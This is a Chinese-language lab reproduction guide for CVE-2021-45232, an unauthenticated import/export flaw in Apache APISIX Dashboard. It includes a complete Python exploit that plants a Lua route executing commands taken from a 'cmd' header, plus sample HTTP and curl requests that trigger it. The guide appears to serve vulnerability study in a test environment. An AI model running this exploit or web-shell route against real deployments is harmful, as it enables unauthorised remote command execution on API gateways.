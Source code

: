 # Apache APISIX Dashboard API权限绕过导致RCE CVE-2021-45232

Apache APISIX是一个动态、实时、高性能API网关，而Apache APISIX Dashboard是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1版本前存在两个API`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`，他们没有经过`droplet`框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。

参考链接：

- https://apisix.apache.org/zh/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 漏洞环境

Vulhub执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：

```
docker-compose up -d
```

然后访问`http://your-ip:9000/`即可看到Apache APISIX Dashboard的登录页面。

![image-20221011092319611](images/202210110923738.png)

## 漏洞复现

利用`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本：

![image-20221011092714922](images/202210110927989.png)

注意的是，这个配置文件的最后4个字符是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如[这个POC](https://github.com/wuppp/cve-2021-45232-exp)。

**apisix_dashboard_rce.py**

```python
#!/usr/bin/env python3
import zlib
import json
import random
import requests
import string
import sys
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)


eval_config = {
    "Counsumers": [],
    "Routes": [
        {
            "id": str(random.randint(100000000000000000, 1000000000000000000)),
            "create_time": 1640674554,
            "update_time": 1640677637,
            "uris": [
                "/rce"
            ],
            "name": "rce",
            "methods": [
                "GET",
                "POST",
                "PUT",
                "DELETE",
                "PATCH",
                "HEAD",
                "OPTIONS",
                "CONNECT",
                "TRACE"
            ],
            "script": "local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)",
            "status": 1
        }
    ],
    "Services": [],
    "SSLs": [],
    "Upstreams": [],
    "Scripts": [],
    "GlobalPlugins": [],
    "PluginConfigs": []
}


def random_str():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=6))


def calc_crc(data):
    crc32 = zlib.crc32(data) & 0xffffffff
    return crc32.to_bytes(4, byteorder="big")


def export_data(url):
    r = requests.get(url + "/apisix/admin/migrate/export", verify=False)
    return r.text[:-4]


def import_data(url, data):
    data = json.dumps(data).encode()
    crc32 = calc_crc(data)

    files = {"file": ("data", data + crc32, "text/data")}
    resp = requests.post(url + "/apisix/admin/migrate/import", files=files, verify=False)
    # print(resp.text)
    if resp.json().get("code", -1) == 0:
        return True
    else:
        return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("python " + sys.argv[0] + " http://127.0.0.1:9000")
        exit()
    
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]

    uri = random_str()
    eval_config["Routes"][0]["uris"] = [ "/" + uri]
    eval_config["Routes"][0]["name"] = uri

    if import_data(url, eval_config):
        print("attack success")
        print("uri is: " + "/" + uri)
    else:
        print("attack error")
```

![image-20221011105801642](images/202210111058704.png)

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。

在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：

```
GET /LQsRF0 HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0
```

![image-20221011105909716](images/202210111059770.png)

也可以通过之前的POC实现命令执行：

```
curl http://your-ip:9080/LQsRF0 -H "cmd: id"
```

![image-20221011105809504](images/202210111058564.png)

可见，我们在Header中添加的`CMD`头中的命令已被执行。

这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。